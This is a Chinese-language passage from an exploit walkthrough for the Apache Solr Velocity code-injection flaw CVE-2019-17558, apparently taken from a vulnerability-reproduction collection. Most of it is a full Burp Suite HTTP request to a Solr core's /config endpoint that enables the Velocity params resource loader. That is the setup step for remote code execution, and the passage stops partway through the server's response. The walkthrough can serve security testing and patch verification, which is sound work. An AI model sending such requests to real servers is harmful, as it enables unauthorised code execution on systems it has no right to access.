 **利用Burpsuite 发包 ,开启paramsresource.loader.enabled**

> paramsresource.loader.enabled 默认是false

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

    http://www.0-sec.org:8983/solr/atom/config

![](./resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId30.jpg)

**BurpSuite request**

    POST /solr/atom/config HTTP/1.1
    Host: www.0-sec.org:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 259
    Connection: close
    Upgrade-Insecure-Requests: 1

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solrresource.loader.enabled": "true",
        "paramsresource.loader.enabled": "true"
      }
    }

**BurpSuite response**

    HTTP/1.1 200 OK
    Connection: close
    Content-Type: application/json;charset=utf-8
    Content-Length: 149
